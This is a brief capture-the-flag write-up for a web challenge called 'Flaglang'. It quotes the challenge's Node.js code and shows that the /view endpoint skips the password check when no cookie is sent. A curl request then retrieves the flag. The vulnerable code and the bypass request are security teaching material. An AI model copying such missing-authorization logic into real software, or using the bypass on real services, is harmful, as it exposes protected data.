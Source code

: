 <h1> Flaglang </h1>

<p> In this web site we can translate "hello world" in multiples langauges </p>

<img src=start.png width=600 height=300></img>

<p> This web applicationa 2 endpoints: </p>
<ul>
  <li> <strong><i>/switch</i></strong> : Add/Switch cookie for a specific country </li>
  <li> <strong><i>/view</i></strong> : Print the country object in json </li>
</ul>

<p> The flag is store in flagistan Object, but we need to have the falgistan cookie but for that we need a password/p>

```js
const country = countryData[req.query.to];
if (country.password) {
  if (req.cookies.password === country.password) {
    res.cookie('iso', country.iso, { signed: true });
  }
  else {
    res.status(400).send(`error: not authenticated for ${req.query.to}`);
    return;
  }
}
```

<img src=error.png></img>

<p> But in the <i>/view</i> endpoin, we can see that if the cookie dosen't exist it don't do the appriopriate check to see if the country need a password or no </p>

```js
const country = countryData[req.query.country];
const userISO = req.signedCookies.iso;
if (country.deny.includes(userISO)) {
  res.status(400).json({ err: `${req.query.country} has an embargo on your country` });
  return;
}
res.status(200).json({ msg: country.msg, iso: country.iso });
```

<p>So, for see the flagistan country we just have to requests in the <i>view</i> endpoint whithout cookie. </p>

```bash
$ curl https://flaglang.chall.lac.tf/view\?country\=Flagistan
{"msg":"lactf{n0rw3g7an_y4m7_f4ns_7n_sh4mbl3s}","iso":"FL"}
```
